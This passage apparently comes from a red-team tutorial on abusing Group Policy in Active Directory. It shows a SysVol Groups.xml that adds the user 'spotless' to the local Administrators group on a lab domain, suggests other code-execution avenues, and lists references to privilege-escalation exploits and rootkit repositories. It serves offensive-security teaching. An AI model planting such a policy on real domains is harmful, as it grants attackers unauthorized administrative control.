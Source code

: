 {% code title="\\\\offense.local\\SysVol\\offense.local\\Policies\\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\\Machine\\Preferences\\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```
{% endcode %}

Additionally, we could think about leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

{% embed url="https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/enabling-and-disabling-privileges-in-c--" caption="" %}

{% embed url="https://adsecurity.org/?p=3658" caption="" %}

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" caption="" %}

{% embed url="https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" caption="" %}

{% embed url="https://rastamouse.me/2019/01/gpo-abuse-part-1/" caption="" %}

{% embed url="https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/EXE/NtLoadDriver-C%2B%2B/ntloaddriver.cpp\#L13" caption="" %}

{% embed url="https://github.com/tandasat/ExploitCapcom" caption="" %}

{% embed url="https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp" caption="" %}

{% embed url="https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys" caption="" %}

{% embed url="https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e" caption="" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FNtLoadDriver.html" caption="" %}

